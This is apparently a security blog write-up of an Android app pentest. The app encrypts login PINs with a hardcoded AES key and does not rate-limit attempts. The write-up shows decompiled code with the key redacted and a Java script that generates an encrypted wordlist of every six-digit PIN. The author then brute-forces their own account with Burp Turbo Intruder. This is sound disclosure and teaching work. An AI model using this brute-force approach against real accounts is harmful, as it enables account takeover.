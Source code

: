 ```yaml
---
title: "Android App Pentesting - Hardcoded Encryption Key + No Rate Limiting Lead to Account Takeover"
date: 2020-9-10T20:15:13+07:00
categories:
  - blog
tags:
  - pentest
  - writeup
  - burpsuite
  - hardcoded-key
---
```


So while pentesting an Android application (lets just call it App A), I stumble upon an unlimited login attempt trial -- which was only consist of a phone number and a **six digit** PIN number.. 

At first I thought that this was a really "juicy" target to bruteforce, but that thought immediately disappear once I see the request. 

Request
![request](/assets/images/writeup-1/req.png)

The request is a JSON object consist of fcmToken, phoneNumber, and a pin number which is somehow looks absolutely different from what I sent from the login screen.

My first guess was that the pin parameter is encoded in Base 64 (notice the "==" at the end), but as I decoding it into plain text, it turns out to be gibberish bytes-like text.
```
>>> import base64
>>> base64.b64decode("JTuPDh122ItijR3aw989lg==")
b'%;\x8f\x0e\x1dv\xd8\x8bb\x8d\x1d\xda\xc3\xdf=\x96'
```

My next step was to guess how the pin parameter is getting encrypted. Since the app wasn't obfuscated by either Proguard/Dexguard and I was able to decompile and gain a pretty clear view of the source code, I begin by inspecting the LoginActivity -- which of course responsible for handling the login activity.

`LoginActivity.java`
```java
        final String str2 = "0" + this.phoneNumber.getText().toString();
        final String obj = this.pin.getText().toString();
        LoginRequest loginRequest = new LoginRequest(str2, AES.AES256Encrypt(obj), str);
```


It turns out that the pin number is passed into AES256Encrypt method, and -- you guess it from the title -- the key is hardcoded into the method itself.

`AES256Encrypt.java`
```java
    public static String AES256Encrypt(String str) {
        String str2;
        try {
            str2 = Base64.encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")), 0);
        } catch (Exception e) {
            PrintStream printStream = System.err;
            printStream.println("Encrypted Err: " + e.getMessage());
            str2 = e.getMessage();
        }
        return str2.replaceAll("\\n", "");
    }    return str2.replaceAll("\\n", "");
```
As you see, there are two  \<REDACTED> parameter in the code above, the first is Initialization Vector, and the other is Encryption/Secret Key itself.

Refering to the code above, I was able to make a script that encrypts the number in range of 100000-999999 to be then used as wordlist for bruteforcing. 

`pin.java`
```java
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.io.PrintStream;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import java.io.BufferedWriter;
import java.io.FileWriter;
    
public class Encrypt {
  public static byte[] encrypt(byte[] bArr, byte[] bArr2, byte[] bArr3) throws UnsupportedEncodingException, NoSuchAlgorithmException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
      IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
      SecretKeySpec secretKeySpec = new SecretKeySpec(bArr2, "AES");
      Cipher instance = Cipher.getInstance("AES/CBC/PKCS5Padding");
      instance.init(1, secretKeySpec, ivParameterSpec);
      return instance.doFinal(bArr3);
  }

  public static String AES256Encrypt(String str) {
      String str2;
    try {
        str2 = Base64.getEncoder().encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")));
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
  }

  public static void main(String args[]) {
    for (int i = 100000; i <= 999999; i++){
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("pin.txt", true));  
            writer.append(AES256Encrypt(String.valueOf(i)) + "\n");

            writer.close(); 
        } catch (Exception e){
            System.out.println(e);
        }
      } 
  }
}
```


Lastly, by using Burpsuite's Turbo Intruder and the wordlist generated from the script, I was able to "forcefully" gain access to my own account in relatively short amount of time :)

![intruder](/assets/images/writeup-1/intruder.png)

So remember whenever you find a parameter that doesn't look like what it is supposed to be, try to find and understand the logic behind it. If its encrypted or obfuscated, try to discover which part of the app is encrypting/obfuscating it, and in the case of encryption, there must be a key to encrypt it. 

For example, if the key is implemented over-the-air, you can obtain it by simply hooking the method using Frida, or if its hardcoded in the app, you can just refer to this post to decrypt it.

See ya :)